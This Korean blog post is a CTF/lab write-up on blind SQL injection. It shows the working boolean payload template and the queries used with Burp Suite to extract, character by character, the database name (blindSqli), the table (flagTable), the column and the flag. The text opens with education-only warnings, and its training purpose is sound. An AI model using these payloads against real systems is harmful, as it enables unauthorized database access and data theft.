 ```yaml
---
layout: single
title:  "7 주차 SQL injection 데이터 추출 문제 풀이(2)"
categories: SQL-injection
typora-root-url: ..\
author_profile: false
---
```


<br>

# <span style="background:#000000; color:#ffffff">1. 7 주차 SQL injection 데이터 추출 문제 풀이(2)</span>

<br><span style='font-weight:bold; font-size:15px'> ※ 주의 사항 :</span>   

<span style='font-weight:bold; font-size:15px'>1. 교육 목적으로만 이용 해주세요.</span><br>
<span style='font-weight:bold; font-size:15px'>2. 무단 침입, 데이터 유출, 개인 정보 침해 등 불법적인 활동은 심각한 법적 결과를 초래할 수 있습니다.</span><br>
<span style='font-weight:bold; font-size:15px'>3.  개인적인 테스트 환경을 구축해서 실습하시길 바랍니다. </span>

<br>

## <span style="background:#696969; color:#ffffff">1.1 개요 </span>

<br>

SQL injection 데이터 추출 방식에는 3 가지 방식이 있습니다.

<br>

<span style='font-weight:bold; font-size:15px'>1. SQL 질의 문 결과가 화면에 출력 되는 경우(데이터추출(2)) => UNION SQLi (로그인 or 게시판 등)</span>

<span style='font-weight:bold; font-size:15px'>2. 에러 메세지가 화면에 출력 되는 경우(데이터추출(3)) => Error Based SQLi (에러 메세지 확인 가능 한 곳)</span>

<span style='font-weight:bold; font-size:15px'>3. 참과 거짓으로 출력 되는 경우(데이터추출(4)) => Blind SQLi (로그인 or 아이디 중복 체크 등)</span>

<br>

## <span style="background:#696969; color:#ffffff">1.2  Blind SQL injection</span>

<br>

🖥SQL injection 데이터 추출(4)과 추출된 값을 제외하고,  문제 풀이 과정은 같습니다.🖥

<br>

#### <span style="background:#A9A9A9; color:#ffffff">1.2.1 sql injection 포인트 찾기</span>

***

<br>

<img src="/images/2024-06-05-SQLinjection19/image-20240605042213272.png" alt="image-20240605042213272" style="zoom:67%;" />

<img src="/images/2024-06-05-SQLinjection19/image-20240601125007358.png" alt="image-20240601125007358" style="zoom:67%;" />

<img src="/images/2024-06-05-SQLinjection19/image-20240605042238453.png" alt="image-20240605042238453" style="zoom:67%;" />



SQL 구문을 사용할 수 있고, 참 거짓을 확인 할 수 있다

▶ sql 구문 error메세지는 안 뜨므로 Blind sqli 가능!

<br>

#### <span style="background:#A9A9A9; color:#ffffff">1.2.2 select 문구가 사용가능한 지 체크</span>

***

<br>

<img src="/images/2024-06-05-SQLinjection19/image-20240601125219643.png" alt="image-20240601125219643" style="zoom:67%;" />

<img src="/images/2024-06-05-SQLinjection19/image-20240601125237816.png" alt="image-20240601125237816" style="zoom:67%;" />

중간 and 문에도 참 거짓이 확인 됨
▶ Blind sqli 가능!

<img src="/images/2024-06-05-SQLinjection19/image-20240601125358300.png" alt="image-20240601125358300" style="zoom:67%;" />

<img src="/images/2024-06-05-SQLinjection19/image-20240601125648850.png" alt="image-20240601125648850" style="zoom:67%;" />

select문으로 바꿔서 작성해도 참 거짓 확인 됨

▶ Blind sqli 가능!

<br>

#### <span style="background:#A9A9A9; color:#ffffff">1.2.3 공격 format 만들기</span>

***

<br>

normaltic' and ascii(substr((select 'test'),1,1)>0) and '1'='1

<img src="/images/2024-06-05-SQLinjection19/image-20240601125950843.png" alt="image-20240601125950843" style="zoom:67%;" />



위의 구문 대로 라면 t가 나와야 한다. 그게 0보다 크므로 글자가 존재한다는 뜻이다.

<br>

따라서 

normaltic' and ascii(substr((<span style="font-weight:bold; color: orange">select~~~</span>),1,1)>0) and '1'='1

이와 같이 select 부분만 바꿔서 계속 쓸 수 있도록 공격 format을 만들 수 있습니다.

<br>

#### <span style="background:#A9A9A9; color:#ffffff">1.2.4 DB이름 확인하기</span>

***

<br>

DB 이름 확인하는 법은   
select database() 이므로,   
<br>

공격 format   
normaltic' and ascii(substr((<span style="font-weight:bold; color: orange">select~~~</span>),1,1)>0) and '1'='1  
에 대입한다.   
<br>

normaltic' and ascii(substr((<span style="font-weight:bold; color: orange">select database() limit 0,1</span>),1,1)>0) and '1'='1

찾을 때 burp suite을 이용하면 간편합니다!!

<span style='font-weight:bold; font-size:20px'>(Blind SQLi) 😊Burp suite로 <span style='text-decoration: red wavy underline'>데이터  확인:</span>😊</span>

<img src="/images/2024-06-05-SQLinjection19/image-20240605042910389.png" alt="image-20240605042910389" style="zoom:60%;" />

SQLi를 구성한 부분이 인코딩 되어 나타났습니다. 이걸 편히 보기 위해 디코딩한 결과로 보이게 끔 만들어 줘야 합니다.

<img src="/images/2024-06-05-SQLinjection19/캡처_2024_06_05_04_33_20_359-1717529725549-31.png" alt="캡처_2024_06_05_04_33_20_359" style="zoom:60%;" />

<img src="/images/2024-06-05-SQLinjection19/캡처_2024_06_05_04_36_28_931.png" alt="캡처_2024_06_05_04_36_28_931" style="zoom:60%;" />

또한, 서버로 보낼 때마다 '존재하는 아이디' 인지 아닌지 참 거짓을 수시로 알아야 하므로, 검색 창에 ''존재하는 아이디입니다.' 를 검색해서 찾고 Auto-scroll to match when text changes의 체크 박스를 선택해 줍니다.

<img src="/images/2024-06-05-SQLinjection19/image-20240605045606302.png" alt="image-20240605045606302" style="zoom:60%;" />

100을 집어 넣었을 때 오른 쪽에 존재하는 아이디라고 뜨지 않으므로, 100보다 작다.

<img src="/images/2024-06-05-SQLinjection19/image-20240605045847831.png" alt="image-20240605045847831" style="zoom:60%;" />

확인한 결과 98이었고, ascii 코드 표에 의하면 'b'이다.

전부 다 구해보니 blindSqli이었다.

<br>

#### <span style="background:#A9A9A9; color:#ffffff">1.2.5 table이름 확인하기</span>

***

<br>

table 이름 확인하는 법은  
select table_name from information_schema.tables where table_schema='DB name' limit 0,1 이므로,   
<br>

공격 format   
normaltic' and ascii(substr((<span style="font-weight:bold; color: orange">select~~~</span>),1,1)>0) and '1'='1  
에 대입한다.   
<br>

normaltic' and ascii(substr((<span style="font-weight:bold; color: orange">select table_name from information_schema.tables where table_schema='blindSqli' limit 0,1</span>),1,1)>0) and '1'='1

<br>

<img src="/images/2024-06-05-SQLinjection19/image-20240605050806866.png" alt="image-20240605050806866" style="zoom:60%;" />

102에서 존재하므로, f 이다.  
다 구한 결과, flagTable이었다.

#### <span style="background:#A9A9A9; color:#ffffff">1.2.6 column 이름 확인하기</span>

***

<br>

column 이름 확인하는 법은  
select column_name from information_schema.columns where table_name='table name' limit 0,1 이므로,   
<br>

공격 format   
normaltic' and ascii(substr((<span style="font-weight:bold; color: orange">select~~~</span>),1,1)>0) and '1'='1  
에 대입한다.   
<br>

normaltic' and ascii(substr((<span style="font-weight:bold; color: orange">select column_name from information_schema.columns where table_name='flagTable' limit 0,1</span>),1,1)>0) and '1'='1



<br>

<img src="/images/2024-06-05-SQLinjection19/image-20240605050956352.png" alt="image-20240605050956352" style="zoom:60%;" />

구한 결과, flag



#### <span style="background:#A9A9A9; color:#ffffff">1.2.7 data 추출하기</span>

***

<br>

normaltic' and ascii(substr((<span style="font-weight:bold; color: orange">select flag from flagTable limit 0,1</span>),1,1)>0) and '1'='1

<br>

<img src="/images/2024-06-05-SQLinjection19/image-20240605051625538.png" alt="image-20240605051625538" style="zoom:60%;" />

115는 s 이다.  
다 구해 보면, segfault{~~~} 가 나왔다.    
답을 알려 줄 수 없으므로 직접 해보길 바란다.